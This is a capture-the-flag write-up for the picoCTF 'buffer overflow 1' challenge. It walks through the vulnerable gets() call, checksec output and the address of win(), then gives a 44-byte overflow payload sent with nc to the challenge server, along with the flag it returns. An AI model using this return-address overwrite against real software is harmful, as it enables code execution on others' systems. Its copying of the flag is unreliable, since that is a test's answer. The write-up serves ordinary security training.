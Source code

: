 # BUFFER OVERFLOW 1

## OVERVIEW & IDEA

- This challenge gives us binary and its source code.

- Checking the source code, we can see that the program has buffer overflow vuln. 

```c
#define BUFSIZE 32
[...]
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

- The idea is just overwrite `ret` of `vuln()` to `win()`

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

- Because this program is 32-bit, and has no protection, so the exploit is pretty easy.

```
λ ~/buffer_overflow_1/ file vuln

vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=96273c06a17ba29a34bdefa9be1a15436d5bad81, for GNU/Linux 3.2.0, not stripped

λ ~/buffer_overflow_1/ checksec --file=vuln

[*] '~/buffer_overflow_1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## DETAILS & EXPLOIT

- Use `objdump` and I got the address of `win()`

```
λ ~/buffer_overflow_1/ objdump -D vuln | grep "win"
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>
```

- Then we can make some attempts or use `cyclic` to find offset between start of `buf` and `ret`

- By some attempts I find the offset is `44 bytes`

```
λ ~/buffer_overflow_1/ python2 -c 'print("a"*44 + "\xf6\x91\x04\x08")' | nc saturn.picoctf.net 63778
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_c76b273b}

```